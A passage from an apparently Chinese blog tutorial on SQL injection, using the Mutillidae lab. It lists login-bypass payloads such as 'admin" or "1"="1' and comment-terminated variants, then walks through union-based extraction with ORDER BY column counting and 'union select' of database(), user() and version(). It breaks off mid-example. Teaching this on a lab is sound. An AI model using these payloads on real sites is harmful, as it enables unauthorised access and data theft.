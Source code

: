```
admin” #
admin”/*
admin” or “1”=“1
admin” or “1”=“1”--
admin” or “1”=“1”#
admin” or “1”=“1”/*
admin” or 1=1 or ““=“
admin” or 1=1
admin” or 1=1--
admin” or 1=1#
admin” or 1=1/*
admin”) or (“1”=“1
admin”) or (“1”=“1”--
admin”) or (“1”=“1”#
admin”) or (“1”=“1”/*
admin”) or “1”=“1
admin”) or “1”=“1”--
admin”) or “1”=“1”#
admin”) or “1”=“1”/*
1234 “ AND 1=0 UNION ALL SELECT “admin”, “81dc9bdb52d04dc20036dbd8313ed055


```

#### 0x02 绕过登录字段

在此示例中，我们将仅定位用户名字段并尝试获得访问权限。用户名字段也很容易受到攻击，同样也可能被滥用来访问框架。攻击者绕过身份验证的要求不高，而且逐渐变得常识，因为他可以选择他可能想要登录的用户记录。

这是SQL注入攻击的外观。将（admin’＃）或（admin’–）放在用户名字段中，然后按“ Enter”登录。我们使用“＃”或“–”来注释用户名后告诉查询语句的所有内容忽略密码字段的数据库：（选择*来自用户，其中username =‘admin’＃AND password =’’）。通过使用行注释，攻击者可以消除部分登录条件并获得访问权限。这项技术将使“ WHERE”子句仅对一个用户成立。在这种情况下，它是“管理员”。 <img src="https://img-blog.csdnimg.cn/20200810174336648.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> <img src="https://img-blog.csdnimg.cn/20200810174343996.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

#### 0x03 基于联合的SQL注入

基于UNION的SQL注入攻击使分析仪可以有效地从数据库中提取数据。由于如果两个查询的结构完全相同，则必须使用“ UNION”运算符，因此攻击者必须像第一个查询一样编写“ SELECT”语句。为此，必须知道一个实质性的表名，但是决定第一个查询中的列数及其信息类型同样至关重要。

在本教程中，我们将使用Mutillidae 的“用户信息”页面执行基于联合的SQL注入攻击。转到“ OWASP Top 10 / A1 —注入/ SQLi —提取数据/用户信息”，并使用在我们上面学习的登录绕过技术来访问该页面。 <img src="https://img-blog.csdnimg.cn/2020081017441564.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> <img src="https://img-blog.csdnimg.cn/2020081017441533.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

我们所有的攻击媒介都将使用基于联合的技术在页面的URL部分中执行。

有两种不同的方法来发现原始查询选择了多少列。首先是注入“ ORDER BY”语句以查询列号。给定指定的列数大于“ SELECT”语句中的列数，将返回错误。否则，结果将按提到的列进行排序。 <img src="https://img-blog.csdnimg.cn/20200810174434493.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

由于我们不知道列数，因此我们从100开始。使用二分法，要找到确切的列数，请减少列数，直到返回与“ ORDER BY”子句相关的错误为止。在此示例中，我们将其减少到6列并收到一条错误消息，因此这意味着列数少于6。 <img src="https://img-blog.csdnimg.cn/20200810174447482.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

当我们输入5列是，它可以工作并显示一些信息。这意味着我们可以使用5列。

接下来，而是采用 了“order by”选项，让我们使用“union select”选项，并提供所有5列。例如：

union select 1,2,3,4,5 <img src="https://img-blog.csdnimg.cn/2020081017445942.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

如上图中所示，第2、3和4列显示出来了可用，因此我们可以将这些数字替换为任何数据库值以查看它们对应的含义。让我们将第2列更改为“ database（）”，将第 3列更改为“ user（）”，将第4列更改为“ version（）”。

例如：
